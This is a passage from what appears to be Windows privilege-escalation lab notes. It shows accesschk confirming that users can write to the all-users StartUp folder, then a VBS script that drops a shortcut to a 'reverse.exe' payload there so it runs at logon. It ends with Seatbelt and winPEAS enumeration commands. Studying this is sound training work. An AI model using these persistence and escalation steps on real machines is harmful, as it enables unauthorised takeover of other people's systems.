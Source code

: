 We can verify if we have the right permissions on that directory:

```cmd
C:\Users\user>C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW WIN-QBA94KB3IOF\Administrator
  RW WIN-QBA94KB3IOF\admin
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  Everyone
```

Then we have to create a shortcut, sign out and sign in again:

```cmd
C:\Users\user>type C:\PrivEsc\CreateShortcut.vbs
type C:\PrivEsc\CreateShortcut.vbs
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save

C:\Users\user>cscript C:\PrivEsc\CreateShortcut.vbs
cscript C:\PrivEsc\CreateShortcut.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
```

___

## Installed Applications exploits

Listing all programs that are running:

```
> tasklist /v
```

Using **seatbelt**, we can look for nonstandard processes:

```cmd
> .\seatbelt.exe NonstandardProcesses
```

**winPEAS** also has this ability:

```cmd
> .\winPEASany.exe quiet procesinfo
```
